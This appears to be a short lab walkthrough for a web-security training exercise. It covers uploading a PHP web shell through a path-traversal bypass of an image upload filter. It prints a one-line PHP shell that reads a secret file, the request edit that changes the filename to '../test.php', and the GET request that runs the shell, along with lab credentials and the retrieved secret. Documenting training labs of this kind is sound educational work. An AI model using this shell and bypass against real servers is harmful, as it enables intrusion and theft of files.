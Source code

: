 # file upload web shell upload via path traversal

## This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a [secondary vulnerability].

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

<?php echo file_get_contents('/home/carlos/secret'); ?>

save as test.php

---

### step 1

login using userid and password
upload any images and try to upload expolit code file it will not upload
so path traveral come in role
../ it means exit from current director
so upload php file and intercept url
filename="test.php" change to filename="../test.php"
and forword
then
access GET /files/test.php HTTP/1.1
OLBNOvcGpJ8NiYO5k1gFyUSNkpTAVdhV

submit code lab solved

![screenshot](images/lab4_image_upload_file_intercept.jpg)

![screenshot](images/lab4_htacess_add_type.jpg)

![screenshot](images/lab4_test_shell_upload.jpg)

![screenshot](images/lab4_getrequest_test_shell.jpg)
